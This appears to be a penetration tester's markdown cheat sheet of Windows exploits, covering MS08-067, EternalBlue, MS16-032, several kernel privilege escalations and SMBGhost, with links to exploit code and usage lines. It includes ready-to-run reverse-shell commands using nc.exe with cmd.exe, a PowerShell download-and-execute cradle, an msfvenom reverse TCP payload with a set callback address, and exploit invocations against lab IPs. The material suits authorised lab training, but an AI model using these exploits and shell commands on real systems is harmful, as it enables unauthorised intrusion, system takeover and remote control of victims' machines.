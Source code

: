 # windows exploits

## MS08-067 Exploit

```
https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py
https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067_w2k3_sp2.py
```

## MS-17-010 EternalBlue Exploit

```
# no pipes needed | manual
https://root4loot.com/post/eternalblue_manual_exploit/

# update username as guest / anonymous (if needed)
https://github.com/helviojunior/MS17-010.git
python send_and_execute.py 10.10.10.40 rev_10.10.14.2_443.exe

https://github.com/3ndG4me/AutoBlue-MS17-010
# run pre requisites
python zzz_exploit.py 10.11.1.75 (windows 8 worked)

https://www.exploit-db.com/exploits/42315
```

## MS-16-032 Exploit

```
# using Powershell Empire script
https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1
> Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('shell.ps1')"
```

## Windows 7

```
# MS11-046 | CVE-2011-1249 | win7 6.1.7600 N/A Build 7600 x86
https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046

# MS10-059* | CVE-2010-2554 | win7 6.1.7600 N/A Build 7600 x86
# usage MS10-059.exe <REV-IP> <PORT>
https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled
```

## MS09-050 'srv2.sys' SMB Code Execution (Python)

```
https://www.exploit-db.com/exploits/40280
```

## MS09-002 Memory Corruption IE7 Exploit

```
(msf) windows/browser/ms09_002_memory_corruption
```

## Windows Server 2008 R2 SP1

```
CVE-2018-8120
    | vulnerability when the Win32k component fails to properly handle objects in memory; can run arbitrary code in kernel mode.
    | https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120
```

## Windows 7 SP1

```
CVE-2018-8120
    | vulnerability when the Win32k component fails to properly handle objects in memory; can run arbitrary code in kernel mode.
    | https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120
```

## Windows Server 2008 SP1 | 6.0.6001 Build 6001

```
CVE-2018-8120
    | vulnerability when the Win32k component fails to properly handle objects in memory; can run arbitrary code in kernel mode.
    | https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120

MS10-059* | https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled
MS10-059.exe <REV-IP> <PORT>
```

## Windows Server 2003

```
MS10-059*
    | https://github.com/Re4son/Churrasco | churrasco.exe -d "nc.exe -e cmd.exe <IP> <PORT>"
    | https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
```

## Windows Server 2012 R2 Standard

```
# MS16-098 | CVE-2016-3309 | Server 2012 R2 Standard 6.3.9600 N/A Build 9600
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098
```

## Windows Server 2008 R2

```
# 6.1.7600 N/A Build 7600 | x64
MS15-051 | https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip
ms15-051.exe "nc64.exe -c cmd.exe IP PORT"

MS10-059* | https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled
MS10-059.exe <REV-IP> <PORT>
```

## Windows XP SP1

```
# local privesc to system | Windows Services (upnphost and SSDPSRV)
https://sohvaxus.github.io/content/winxp-sp1-privesc.html
```

## Windows 10 PRO

```
# 10.0.18362 N/A Build 18362
# needs 445 open
SMBGHOST | CVE-2020-0796 | https://github.com/danigargu/CVE-2020-0796
# updat shellcode in exploit.cpp | line 204
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.122 LPORT=8081 -f dll -f csharp
# update REALESE for x64
# build solution

> cve-2020-0796-local.exe
```
